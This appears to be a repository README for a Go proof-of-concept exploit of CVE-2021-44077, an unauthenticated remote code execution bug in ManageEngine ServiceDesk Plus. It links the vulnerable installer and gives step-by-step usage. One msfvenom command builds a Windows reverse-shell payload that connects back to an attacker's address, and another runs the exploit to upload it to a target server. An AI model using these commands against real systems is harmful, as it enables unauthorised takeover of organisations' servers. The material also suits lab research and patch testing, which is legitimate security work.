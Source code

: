 # Golang-CVE-2021-44077-POC

This exploit is an unauthenticated RCE in Zoho ManageEngine ServiceDesk Plus < 11306. 

You can find a vulnerable version of the software here: http://archives.manageengine.com/service-desk/11303/ManageEngine_ServiceDesk_Plus_64bit.exe

I couldn't find a Golang version of this, so here it is. My code isn't great, so proceed at your own risk. 

Blog post: 

https://www.pizzapower.me/2022/09/29/golang-proof-of-concept-exploit-for-cve-2021-44077-preauth-rce-in-manageengine-servicedesk-plus-11306/

## Running

Create a malicious payload in your current directory. 

```msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f exe > msiexec.exe```

Then, run the exploit.

```go run CVE-2021-44077.go -u "http://192.168.1.3:8080/" -f "/msiexec.exe"```

-u is the vulnerable URL
-f is your malicious file 

 

